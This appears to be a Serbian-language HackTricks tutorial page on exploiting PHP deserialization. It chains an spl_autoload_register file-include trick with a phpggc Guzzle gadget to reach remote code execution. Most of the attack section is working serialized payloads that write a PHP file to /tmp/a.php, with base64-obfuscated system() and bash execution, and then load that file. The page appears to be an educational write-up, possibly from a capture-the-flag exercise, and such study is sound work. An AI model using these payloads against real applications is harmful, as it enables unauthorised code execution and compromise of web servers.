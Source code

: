 # PHP - Deserializacija + Autoload Klase

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

Prvo, trebate proveriti šta su [**Autoloading Klase**](https://www.php.net/manual/en/language.oop5.autoload.php).

## PHP deserializacija + spl\_autoload\_register + LFI/Gadget

Nalazimo se u situaciji gde smo pronašli **PHP deserializaciju u web aplikaciji** bez **ikakvih** biblioteka ranjivih na gadgete unutar **`phpggc`**. Međutim, u istom kontejneru postojala je **druga composer web aplikacija sa ranjivim bibliotekama**. Stoga, cilj je bio **učitati composer loader druge web aplikacije** i iskoristiti ga da **učita gadget koji će iskoristiti tu biblioteku sa gadgetom** iz web aplikacije ranjive na deserializaciju.

Koraci:

* Pronašli ste **deserializaciju** i **nema** nikakvog gadgeta u trenutnom kodu aplikacije
* Možete iskoristiti funkciju **`spl_autoload_register`** kao što je sledeća da **učitate bilo koji lokalni fajl sa `.php` ekstenzijom**
* Za to koristite deserializaciju gde će ime klase biti unutar **`$name`**. **Ne možete koristiti "/" ili "."** u imenu klase u serijalizovanom objektu, ali **kod** **menja** **donje crte** ("\_") **u kose crte** ("/"). Tako će ime klase kao što je `tmp_passwd` biti transformisano u `/tmp/passwd.php` i kod će pokušati da ga učita.\
Primer **gadgeta** bi bio: **`O:10:"tmp_passwd":0:{}`**
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
Ako imate **upload fajlova** i možete da upload-ujete fajl sa **`.php` ekstenzijom**, mogli biste **da zloupotrebite ovu funkcionalnost direktno** i dobijete već RCE.
{% endhint %}

U mom slučaju, nisam imao ništa slično, ali je unutar **iste kontejnera** bila još jedna composer web stranica sa **bibliotekom koja je ranjiva na `phpggc` gadget**.

* Da biste učitali ovu drugu biblioteku, prvo morate da **učitate composer loader te druge web aplikacije** (jer loader trenutne aplikacije neće imati pristup bibliotekama druge.) **Poznavajući putanju aplikacije**, to možete lako postići sa: **`O:28:"www_frontend_vendor_autoload":0:{}`** (U mom slučaju, composer loader je bio u `/www/frontend/vendor/autoload.php`)
* Sada možete **učitati** druge **app composer loader**, tako da je vreme da **`generišete phpgcc`** **payload** koji ćete koristiti. U mom slučaju, koristio sam **`Guzzle/FW1`**, što mi je omogućilo da **pišem bilo koji fajl unutar fajl sistema**.
* NAPOMENA: **Generisani gadget nije radio**, da bi radio, **izmenio** sam taj payload **`chain.php`** od phpggc i postavio **sve atribute** klasa **sa privatnih na javne**. Ako ne, nakon deserializacije stringa, atributi kreiranih objekata nisu imali nikakve vrednosti.
* Sada imamo način da **učitamo druge app composer loader** i imamo **phpggc payload koji radi**, ali moramo **to uraditi u ISTOM ZAHTEVU da bi loader bio učitan kada se gadget koristi**. Za to, poslao sam serijalizovani niz sa oba objekta kao:
* Možete videti **prvo kako se loader učitava, a zatim payload**

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* Sada možemo **da kreiramo i pišemo datoteku**, međutim, korisnik **nije mogao da piše u bilo koju fasciklu unutar web servera**. Tako da, kao što možete videti u payload-u, PHP poziva **`system`** sa nekim **base64** koji je kreiran u **`/tmp/a.php`**. Zatim, možemo **ponovo iskoristiti prvi tip payload-a** koji smo koristili kao LFI da učitamo composer loader druge web aplikacije **da učitamo generisanu `/tmp/a.php`** datoteku. Samo ga dodajte u gadget za deserializaciju:&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**Sažetak napada**

* **Učitaj composer autoload** druge web aplikacije u istom kontejneru
* **Učitaj phpggc gadget** da iskoristi biblioteku iz druge web aplikacije (prva web aplikacija ranjiva na deserializaciju nije imala nijedan gadget u svojim bibliotekama)
* Gadget će **napraviti datoteku sa PHP payload-om** u /tmp/a.php sa malicioznim komandama (korisnik web aplikacije ne može da piše u bilo koju fasciklu bilo koje web aplikacije)
* Poslednji deo našeg payload-a će koristiti **učitavanje generisane php datoteke** koja će izvršiti komande

Trebao sam **pozvati ovu deserializaciju dva puta**. U mom testiranju, prvi put je datoteka `/tmp/a.php` kreirana, ali nije učitana, a drugi put je ispravno učitana.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
